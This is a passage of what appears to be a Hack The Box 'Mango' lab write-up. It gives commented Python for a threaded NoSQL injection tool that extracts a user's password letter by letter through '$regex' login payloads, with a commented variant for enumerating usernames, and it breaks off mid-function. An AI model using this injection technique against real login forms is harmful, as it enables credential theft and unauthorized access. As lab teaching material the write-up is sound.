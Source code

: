 ### The 1st Part: Importing the required libraries and the "test" function
```python
from threading import Thread
import string # includes the needed character sets
import requests

# a function that takes in a character as input and tests if the password starts with it or not
def test(character, username):
	# the password variable is defined globally to be accessible everywhere and to be populated
	global password
	# the regex payload, notice that we keep appending the character in question to the end of the already discovered part of the password
	payload = f"^{password}{character}"
	url = 'http://staging-order.mango.htb/'
	# filling out the post data with the supplied username and character
	data = {
		'username': username,
		'password[$regex]': payload,
		'login': 'login'
	}
	"""
	# here's the post data if you want to enumerate usernames
	data = {
		'username[$regex]': payload,
		'password[$ne]': '',
		'login': 'login'
	}
	"""
	# special print function for a cool effect
	print ("\r" + "[*] the password for " + username + " is... " + password + str(character), flush=False, end='')
	# sending the request without following redirects
	response = requests.post (url=url, data=data, allow_redirects=False)
	# return true if the status code is the 302 redirection
	if response.status_code == 302:
		return True

```
### The 2nd Part: Creating the worker functions (7 total) to evenly distribute and iterate over all characters in parallel
```python
# 1st half of the lowercase alphabet (13 total)
def alpha_L1():
	# the catch variable represents a valid character found, this is used for stopping all workers when a match is found instead of continuing to search
	global catch
	for character in string.ascii_letters[0:13]:
		# if the catch variable isn't empty (i.e another worker caught the right character), be a smart worker and stop searching ;]
		if catch != '':
			return
		# if the test function returns true, set the catch variable and stop searching :D
		if test(character, target_user):
			catch = character
			break

# 2nd half of the lowercase alphabet (13 total)
def alpha_L2():
	global catch
	for character in string.ascii_letters[13:26]:
		if catch != '':
```